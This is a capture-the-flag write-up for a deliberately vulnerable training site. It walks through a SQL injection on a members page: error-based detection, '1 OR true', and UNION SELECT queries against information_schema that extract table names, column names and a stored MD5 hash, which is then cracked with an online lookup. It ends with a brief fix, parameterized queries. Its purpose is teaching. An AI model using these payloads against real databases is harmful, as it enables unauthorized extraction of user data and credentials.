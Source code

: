 # SQL Injection

## Vulnerability

At the top of the page, there is a `members` link to: `http://darkly/index.php?page=member`.

The page contains an input and a button.
Giving an empty input and clicking on submit gave us the following error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
```

That means that an SQL Injection is possible.
We can verify it by doing a simple query:
```sql
1 OR true
```

Give the result:
```
ID: 1 OR true 
First name: one
Surname : me

ID: 1 OR true 
First name: two
Surname : me

ID: 1 OR true 
First name: three
Surname : me

ID: 1 OR true 
First name: Flag
Surname : GetThe
```

Since we can't blindly explore the database, we have to extract some metadata first.

The first one is the table name using the following query:
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

We can now see the tables name:
- `information_schema`
- `Member_Brute_Force`
- `Member_Sql_Injection`
- `Member_guestbook`
- `Member_images`
- `Member_survey`

Since the challenge seems to be an SQL Injection, let's take `Member_Sql_Injection`.

Now we need to extract the tables name:
```sql
1 UNION(SELECT `TABLE_NAME`, `TABLE_SCHEMA` FROM `information_schema`.`TABLES`);
```

By filtering in the data, we can see that there is only one table: `users`.

Now we need to extract the columns name:
```sql
1 UNION(SELECT `TABLE_NAME`, `COLUMN_NAME` FROM `information_schema`.`COLUMNS`);
```

By filtering in the data, we now know the column names:
- `user_id`
- `first_name`
- `last_name`
- `town`
- `country`
- `planet`
- `Commentaire`
- `countersign`

Only the last two contains interesting informations.

By querying them, we know what to do next:
```sql
1 UNION(SELECT `Commentaire`, `countersign` FROM `users`);
```
```
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
```

Using a universal hash decryptor likes [hashes.com](https://hashes.com/en/decrypt/hash), the MD5 match has been found:
```
5ff9d0165b4f92b14994e5c685cdce28:FortyTwo:MD5
```

So, the flag is:
```
sha256(lower('FortyTwo'))
```

## Possible Fix

- Use parameterized query.

